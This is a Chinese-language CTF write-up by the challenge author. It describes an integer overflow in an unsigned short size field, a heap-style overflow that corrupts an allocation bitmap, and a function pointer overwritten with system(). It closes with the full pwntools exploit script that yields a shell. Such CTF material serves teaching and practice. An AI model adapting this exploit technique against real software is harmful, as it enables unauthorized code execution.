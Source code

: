# 完美冻结

漏洞很简单。

程序用mmap生成了两块0x1000内存快，实现了一套奇怪的存储装置：一个用来做buff，一个用来存数据。

做buff的堆块在重新设置大小(`bmap_set`)时，使用的是`unsigned short`，但是做加法时(或者从`unsigned int`转换到`unsigned short`时)会产生整数溢出。

利用`// `符号读入大量的字符，再配合`\0`符号就可以将buff溢出到后面的堆块。

第二个装置里面用的是位字段指示某个地址是否空闲。将该字段覆盖掉，即可造成两个数据结构被分配在一个地址上。

由于出题人的程序结构又写崩了，于是无奈之下直接给了`system()`函数的地址...也就是说完全不需要绕过任何保护。

利用覆盖将函数指针覆盖为system的即可getshell。

看似复杂其实随便堆点时间就可以拿到flag...就像9的符卡一样嘛(笑)。

代码会随其他源码一同给出。

出题人的验证exp(不知道为什么很莫名其妙但是的确getshell了):

```
#!/usr/bin/env python2

from pwn import *

context.terminal = ['gnome-terminal', '-x', 'sh', '-c']

#p = process('./easy')
#p = gdb.debug('./easy')

puts_plt = 0x00400810
system = 0x400870

payload = ""

payload += "VALUE 1 65\n"

#payload += "VALUE 2 66\n"
pay = "VALUE 2 "
pay += str(system)
pay += '\n'
payload += pay

payload += "VALUE 3 67\n"
payload += "MOV 1 2\n"

pay = "// "
pay += "A" * (32 - len(pay) - 1)
pay += '\n'
payload += pay

pay = "// "
pay += "B" * (32 - len(pay))
pay += "\x07\x00"
pay += "B" * (0xFFFF - len(pay) - 1)
pay += '\n'
payload += pay

pay = "VALUE 4 29400045130965551"
pay += '\n'
payload += pay

payload += "PRINT 4\n"
payload += "END\n"

p.send(payload)

p.interactive()
```

